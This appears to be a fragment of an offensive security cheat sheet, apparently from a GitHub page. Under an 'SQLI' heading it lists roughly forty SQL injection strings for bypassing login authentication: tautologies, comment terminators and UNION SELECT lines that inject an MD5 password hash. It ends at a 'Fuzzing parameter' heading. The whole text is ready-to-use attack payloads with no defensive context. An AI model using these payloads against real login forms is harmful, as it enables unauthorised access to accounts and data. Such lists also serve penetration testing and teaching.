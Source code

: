 
### SQLI

**SQL Injection**

Bypass authentication

```bash
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

Fuzzing parameter
